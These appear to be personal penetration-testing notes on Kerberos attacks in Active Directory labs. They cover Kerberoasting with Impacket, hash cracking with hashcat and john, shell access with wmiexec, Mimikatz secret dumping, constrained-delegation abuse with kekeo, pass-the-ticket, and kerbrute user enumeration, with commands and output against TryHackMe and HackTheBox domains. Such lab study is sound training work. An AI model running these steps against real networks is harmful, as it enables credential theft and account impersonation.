

# Kerberos

## Kerberos authentication

The user makes an AS-REQ to the Key Distribution Centre (KDC) on the DC that includes a timestamp encrypted with the user's NTLM hash. Essentially, this is the request for a Ticket Granting Ticket (TGT). The DC checks the information and sends the TGT to the user. This TGT is signed with the KRBTGT account's password hash that is only stored on the DC. The user can now send this TGT to the DC to request a Ticket Granting Service (TGS) for the resource that the user wants to access. If the TGT checks out, the DC responds to the TGS that is encrypted with the NTLM hash of the service that the user is requesting access for. The user then presents this TGS to the service for access, which can verify the TGS since it knows its own hash and can grant the user access.  

  

Source: [TryHackMe - Persisting AD](https://tryhackme.com/room/persistingad)

## Kerberoasting

- Any valid user gets a ticket with kerberos to access a service (SQL for instance)
- Tool: GetUsersSPNS.py - Impacket
- Get a hash using the tool
  
  ```bash
  ┌──(root💀kali)-[~kali]
  └─# GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 10.0.2.5 -request
  /usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

  ServicePrincipalName                    Name        MemberOf                                                     PasswordLastSet      LastLogon 
  --------------------------------------  ----------  -----------------------------------------------------------  -------------------  ---------
  HYDRA-DC/SQLService.MARVEL.local:60111  SQLService  CN=Group Policy Creator Owners,OU=Groups,DC=MARVEL,DC=local  2022-01-28 17:55:04  <never>   

  $krb5tgs$23$*SQLService$MARVEL.LOCAL$HYDRA-DC/SQLService.MARVEL.local~60111*$eb60bb[STRIPPED]7e35f1a787901409e16bc
  ```

  - If we get this error `[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` we need to coordinate our time with the server time using ntpdate
- `sudo apt install ntpdate`
     - `sudo ntpdate 10.10.10.100`

        ```bash
        5 Mar 19:42:53 ntpdate[19369]: step time server 10.10.10.100 offset +426.954203 sec
        ```
  - And then you should be able to rerun and actually get the hash

- Finding the proper module in hashcat `hashcat --help | grep Kerberos`
  ```
  ┌──(root💀kali)-[~/active-directory]
  └─# hashcat --help | grep Kerberos
     7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth            | Network Protocols
    13100 | Kerberos 5, etype 23, TGS-REP                    | Network Protocols
    18200 | Kerberos 5, etype 23, AS-REP                     | Network Protocols
    19600 | Kerberos 5, etype 17, TGS-REP                    | Network Protocols
    19700 | Kerberos 5, etype 18, TGS-REP                    | Network Protocols
    19800 | Kerberos 5, etype 17, Pre-Auth                   | Network Protocols
    19900 | Kerberos 5, etype 18, Pre-Auth                   | Network Protocols
  ```
- We need TGS which is 13100
- Crack the hash with hachcat (for it to work I needed to have 4gb on my vm)
  ```bash
  ┌──(root💀kali)-[~/active-directory]
  └─# hashcat -m 13100 hashkerb.txt /usr/share/wordlists/rockyou.txt -O filename
  ```bash
- Crack the hash with john
  - Alternatively we can use john
  ```bash
  john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt kerbhash.txt
  ```

- We get the password
  ```bash
  $krb5tgs$23$*SQLService$MARVEL.LOCAL$HYDRA-DC/SQLService.MARVEL.local~60111*$eb6[STRIPPED]6bc:MYpassword123#
  ```
- After getting a password, we could connect to an smbshare or get a shell

  ```python
  python3 wmiexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100
  ```
  or
  ```bash
  smbclient \\\\10.10.10.100\\Users -U active.htb\\Administrator
  ```

## Exploiting Kerberos Delegation

The practical use of Kerberos Delegation is to enable an application to access resources hosted on a different server. An example of this would be a web server that needs to access a SQL database hosted on the database server for the web application that it is hosting. Without delegation, we would probably use an AD service account and provide it with direct access to the database. When requests are made on the web application, the service account would be used to authenticate to the database and recover information.

However, we can allow this service account to be delegated to the SQL server service. Once a user logs into our web application, the service account will request access to the database on behalf of that user. This means that the user would only be able to access data in the database that they have the relevant permissions for without having to provide any database privileges or permissions to the service account itself.

Source: [TryHackMe](https://tryhackme.com/room/exploitingad)

### Example

- Enerumerate available delegations with a privileged user
  - `Import-Module C:\Tools\PowerView.ps1`
  - `Get-NetUser -TrustedToAuth`
- Dump LSASecrets with [Mimikatz](https://github.com/gentilkiwi/mimikatz/security)
  - `mimikatz.exe`
  - `token::elevate` To dump the secrets from the registry hive, we need to impersonate the SYSTEM user.
  - `lsadump::secrets` Mimikatz interacts with the registry hive to pull the clear text credentials.
  
  

- Perform the kerberos delegation attack with [kekeo](https://github.com/gentilkiwi/kekeo) `kekeo.exe`
- `tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:redacted` generate a TGT that can be used to generate tickets for the HTTP and WSMAN services
  - user - The user who has the constrained delegation permissions.
  - domain - The domain that we are attacking since Kekeo can be used to forge tickets to abuse cross-forest trust.
  - password - The password associated with the svcIIS account.

  

- `/user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc` forge TGS requests for the account we want to impersonate. We need to perform this for both HTTP and WSMAN to allow us to create a PSSession on THMSERVER1
  - tgt - We provide the TGT that we generated in the previous step.
  - user - The user we want to impersonate. Since t2 accounts have administrative access over workstations, it is a safe assumption that t1 accounts will have administrative access over servers, so choose a t1_ account that you would like to impersonate.
  - service - The services we want to impersonate using delegation. We first generate a TGS for the HTTP service. Then we can rerun the same command for the WSMAN service. `tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc`
- Import the tickets with Mimikatz

```dos
privilege::debug
kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
```

- You should have a similar output  


- You can run `klist` to check that the tickets were imported
- We just need to create our session in our target  



## Bruteforce users with kerbrute

- Get kerbrute [here](https://github.com/ropnop/kerbrute)
- If you do not have creds yet but see kerberos in the list of ports, it is worth trying to enumerate users with a wordlist using kerbrute
- `./kerbrute_linux_amd64 userenum -d timelapse.htb --dc 10.10.11.152 /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`

> Note: There's a lot of other things you can do with kerberos

## Resources

 Kerberos - port 88 by Lisandre   
